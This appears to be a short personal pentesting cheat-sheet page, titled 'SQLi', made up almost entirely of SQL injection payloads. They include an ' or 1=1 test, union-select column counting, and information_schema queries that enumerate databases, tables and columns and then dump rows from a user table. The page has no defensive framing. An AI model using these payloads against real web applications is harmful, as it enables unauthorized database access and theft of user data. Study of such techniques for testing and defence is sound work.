 ```yaml
---
icon: syringe
---
```


# SQLi

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark> <mark style="color:purple;">doesn't need</mark> <mark style="color:orange;">`;`</mark> <mark style="color:purple;">at the end!</mark>
{% endhint %}

***

{% hint style="info" %}
### Recon

{% code title="Basic test" %}
```sql
' or 1=1-- -;
```
{% endcode %}

### Union

* First, find the number of columns:

```sql
' union select 1-- -;
```

```sql
' union select 1,2-- -;
```

```sql
' union select 1,2,3-- -;
```

```sql
' union select 1,2,3,4-- -;
```

* Once you know the number of columns:

{% code title="Current database" %}
```sql
' union select 1,2,3,database()--; 
```
{% endcode %}

* If you want to know how many databases there are:

{% code title="Information Schema" overflow="wrap" %}
```sql
' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -;
```
{% endcode %}

* To look how many tables in a database:

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'database'-- -;
```
{% endcode %}

* To look how many columns in a table:

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = 'table'-- -;
```
{% endcode %}

* To look the content of the columns:

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}
{% endhint %}

